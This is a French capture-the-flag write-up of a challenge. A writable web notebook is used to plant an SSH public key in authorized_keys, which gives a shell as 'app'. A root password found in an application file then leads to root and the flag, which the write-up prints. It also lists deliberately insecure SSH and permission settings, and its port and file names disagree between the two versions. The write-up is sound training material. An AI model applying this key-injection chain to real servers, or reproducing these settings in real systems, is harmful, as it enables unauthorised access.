



Le serveur web permet de lire et écrire des fichiers dans le dossier courant.

On tente de lire un fichier commun, et on apprend que l'on se situe dans le dossier ``/home/app``


En parallèle, si l'on tente de se connecter au service SSH, on obtient cette erreur :
```bash
app@challenges.cybn.fr: Permission denied (publickey).
```

Le serveur n'accepte que des **clés publiques**.

Les deux infos ensemble assopciées : et si on lisait les clés du compte ``app``, dans le fichier `/home/app/.ssh/authorized_keys` (soit `.ssh/authorized_keys`)


On voit bien qu'une clé existe, mais on ne la possède pas.
Le bloc-note est en écriture, on peut alors la remplacer ou simplement ajouter la notre :


Une fois bien ajouté, on retente de se connecter au serveur :
```bash
ssh app@challenges.cybn.fr -p 10207
app@016598c631aa:~$
```

On peut alors naviguer dans les dossiers de l'application `/opt/Application`, comme indique dans le fichier `note.txt`, et rencontrer le mot de passe root dans le fichier ``/opt/Application/config.ini``

Grâce à ce dernier, on peut se connecter au compte ``root`` et lire le flag :

```bash
cat /root/flag.txt
CYBN{AtT3nT10n_@_JuL13_l4_RH}
```

---

Version détaillée :

## Chaîne de résolution prévue

1. Ouvrir `http://<hôte>:8080` et accéder au bloc-notes.
2. Générer une clé SSH Ed25519 côté joueur :
   ```bash
   ssh-keygen -t ed25519 -f ./cle-ctf -N ''
   ```
3. Coller le contenu de `cle-ctf.pub` dans le bloc-notes et enregistrer sous :
   ```text
   /home/app/.ssh/authorized_keys
   ```
4. Se connecter avec la clé privée :
   ```bash
   ssh -p 2222 -i ./cle-ctf app@<hôte>
   ```
5. Depuis le shell `app`, inspecter les fichiers de l'application. Le fichier `/opt/Application/password.txt` conserve le mot de passe root historique de la v1.
6. Passer root localement dans le conteneur avec ce mot de passe, puis lire le flag :
   ```bash
   su - root
   cat /root/flag.txt
   ```

## Points importants

- Le notebook est volontairement permissif en écriture sous `/home/app`, afin de permettre le dépôt de `authorized_keys`.
- L'application web et SSH partagent le même utilisateur Unix `app`.
- SSH interdit la connexion directe de root (`PermitRootLogin no`) et n'accepte que les clés publiques (`AuthenticationMethods publickey`).
- `StrictModes no`, `/home/app/.ssh` en `0777` et `authorized_keys` en `0666` sont intentionnels pour cet exercice.
- Aucun service de transfert de fichiers séparé n'est installé ni lancé dans cette version.
